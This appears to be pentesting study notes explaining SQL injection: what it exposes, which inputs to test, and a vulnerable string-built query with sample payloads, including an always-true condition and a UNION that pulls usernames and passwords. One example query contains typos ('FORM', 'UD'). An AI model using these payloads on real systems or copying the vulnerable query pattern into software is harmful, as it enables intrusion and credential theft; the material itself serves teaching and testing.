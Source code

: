 ## SQL Injections

They allow an unauthorized user to take control over SQL statements used by a web application. This kind of attack has a huge impact on a web site because getting control over a backend database means controlling:

* User's credentials
* Data of the web application
* Credit Card numbers
* Shopping transactions

To find SQL injections, we need to check any user input \(every input must be tested to conduct a professional pentest\):

* GET parameters
* POST parameters
* HTTP Headers
  * User-Agent
  * Cookie
  * Accept

Tests can be:

* String terminators: `' and ''`
* SQL commands: `SELECT`, `UNION` and others
* SQL comments: `#` or `--`

## SQL basics

```sql
-- SELECT <columns list> FROM <table> WHERE <conditions>;
SELECT name, description FROM products WHERE id=9;

-- UNION command performs a union between
<SELECT statement> UNION <other SELECT statement>;
```

## Vulnerable Dynamic Queries

```sql
-- This dynamic query expects $id values as a string:
SELECT Name, Description FROM Products WHERE ID='$id'

-- But what if an attacker crafts a $id value which can change the query to something like ` OR 'a'='a` then the query becomes:
SELECT Name, Description FORM Products WHERE UD='' OR 'a'='a';
-- ...which tells the database to select the items by checking two conditions which is always true.

-- An attacker could also exploit the UNION command by supplying the following:
-- ' UNION SELECT Username, Password FROM Accounts WHERE 'a'='a
-- Thus it changes the original query to:

SELECT Name, Description FROM Products WHERE ID='' UNION SELECT Username, Password FROM Accounts WHERE 'a'='a';
```

